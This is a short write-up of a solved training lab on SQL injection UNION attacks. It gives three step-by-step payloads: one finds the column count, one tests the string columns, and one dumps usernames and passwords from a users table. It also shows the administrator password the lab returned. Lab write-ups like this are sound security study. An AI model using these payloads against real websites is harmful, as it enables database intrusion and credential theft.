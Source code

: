 # Lab 5 - SQL injection UNION attack, retrieving data from other tables

**Status**: Solved the 1st August 2023.

**Objective**: Retrieve the `username` and `password` from the `users` table, and log in as the `administrator` user.

## Solving Process

- First, the number of columns has to be determined, the following payload was the one that didn't returned an error message:
  - `'+UNION+SELECT+NULL,NULL--`
  - The number of columns is 2
- The next step is to check which columns support strings. And by inserting a string in each column position, the following payload returned no error:
  - `'+UNION+SELECT+'abc','def'--`
  - So both columns support string
- Now, the `username` and `password` can be outputted in both columns. The following payload worked to retrieve the information we're looking for:
  - `'+UNION+SELECT+username,+password+FROM+users--`
  - The returned password for `administrator` is: `d9g1eezpdbgjng52n3dd`
- By entering the credentials `administrator : d9g1eezpdbgjng52n3dd` we've successfully logged in.
